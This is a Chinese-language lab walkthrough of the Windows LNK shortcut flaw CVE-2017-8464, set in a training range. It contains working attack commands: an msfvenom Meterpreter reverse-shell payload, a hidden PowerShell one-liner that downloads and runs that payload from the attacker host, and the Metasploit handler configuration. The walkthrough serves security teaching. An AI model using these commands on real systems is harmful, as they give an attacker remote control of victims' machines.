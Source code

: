 ```yaml
---
description: CVE-2017-8464
---
```


# Windows Link windows快捷方式漏洞

## 【原理】

Windows系统使用二进制解析 .LNK文件，当恶意二进制代码被系统识别执行时即可实现远程代码执行，由于是在explorer.exe进程中运行，所以 load 进内存时与当前用户具有相同权限。

攻击者利用这一解析过程将包含恶意二进制的代码被附带进可移动驱动器\(或远程共享过程中\)，受害者使用powershell解析 .LNK 文件后即被黑客所控制。

## 【工具】

* Metasploit
* Powershell

## 【步骤】

1.点击启动场景按钮，等待场景启动完成后，通过靶标接入协议进入漏洞标靶

攻击机：kali ip：192.168.166.13

目标靶机：win2008 ip:192.168.166.15

2.kali下生成一个反弹的 ps1的shell（使用root权限）:

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.166.13 lport=4444 -f psh-reflection>/opt/search.ps1
```

![image-20210220154841341](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220154841341.png)

3.切换到opt目录，然后查看到已生成了search.ps1 的powershell 后门

```text
cd /opt
ls
```

![image-20210220112219149](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220112219149.png)

4.将生成的search.ps1拷贝到/var/www/html目录下

```text
mv  search.ps1  /var/www/html
cd /var/www/html
ls
```

![image-20210220112647630](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220112647630.png)

5.启动apache服务

```text
service apache2 start
```

![image-20210220113510608](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220113510608.png)

6.访问web下的search.ps1，可以直接访问：[http://192.168.166.13/search.ps1](http://192.168.166.13/search.ps1)

```text
ip/search.ps1
```

![image-20210220114837168](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220114837168.png)

7.在靶机Windows2008上创建一个powershell远程快捷：

```text
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.166.13/search.ps1');test.ps1"
```

![image-20210220153556570](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220153556570.png)

输入以下代码：

```text
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.166.13/search.ps1');test.ps1"
```

![image-20210220155122710](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220155122710.png)

8.名称为:powershell.exe

![image-20210220153733262](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220153733262.png)

9.kali下创建监听反弹，并且可以看到成功反弹出靶机的shell:

```text
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
show options
set LHOST 192.168.166.13
set lport 4444
exploit
```

10.反弹shell，拿到权限

![image-20210220155410973](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220155410973.png)

![image-20210220155558190](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210220155558190.png)

